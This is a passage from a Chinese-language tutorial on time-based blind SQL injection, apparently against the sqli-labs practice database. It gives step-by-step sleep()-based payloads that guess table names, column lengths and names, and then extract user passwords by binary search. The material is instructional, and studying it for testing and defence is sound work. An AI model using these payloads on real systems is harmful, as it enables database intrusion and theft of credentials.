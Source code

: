  采用二分法以此类推得到唯一的值
通过这个方法判断出表长


> 
<h3>3.6、第五步：猜表名</h3>
?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))&gt;60,  sleep(5),1)--+
转了5s说明if判断正确


?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))&lt;200,  sleep(5),1)--+
转了5s说明if判断正确


 采用二分法以此类推得到唯一的值
通过这个方法判断出整个表名


> 
<h3> 3.7、第六步：猜字段长度</h3>
?id=1' and if(length((select column_name from information_schema.columns where table_name='users' limit 0,1))&gt;3,sleep(5),1)--+
转了5s说明if判断正确

 ?id=1' and if(length((select column_name from information_schema.columns where table_name='users' limit 0,1))&lt;10,sleep(5),1)--+
转了5s说明if判断正确

 采用二分法以此类推得到唯一的值
通过这个方法判断出表长


> 
<h3>3.8、第七步：猜字段名</h3>
?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))&gt;10,sleep(5),1)--+
转了5s说明if判断正确


?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))&lt;100,sleep(5),1)--+
转了5s说明if判断正确


 采用二分法以此类推得到唯一的值
通过这个方法判断出整个字段名


> 
<h3> 3.9、第八步：猜数据</h3>
?id=1' and if(ascii(substr((select password from security.users limit 0,1),1,1))&gt;10, sleep(5),0)--+
转了5s说明if判断正确



?id=1' and if(ascii(substr((select password from security.users limit 0,1),1,1))&lt;100, sleep(5),0)--+
转了5s说明if判断正确
